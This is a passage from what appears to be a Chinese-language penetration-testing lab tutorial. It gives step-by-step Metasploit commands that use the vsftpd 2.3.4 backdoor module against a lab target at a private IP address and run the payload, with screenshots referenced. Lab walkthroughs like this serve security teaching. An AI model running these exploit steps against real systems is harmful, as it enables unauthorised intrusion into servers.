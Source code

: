 
2、使用exploit/unix/ftp/vsftpd_234_backdoor，命令如下

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

​![image](assets/image-20230408141741-gq57kz8.png)​

3、设置靶机的IP地址，命令如下

```bash
set rhosts 192.168.23.136
```

4、最后运行payload，命令如下

```bash
run
```

​![image](assets/image-20230408141941-2ftknpf.png)​

---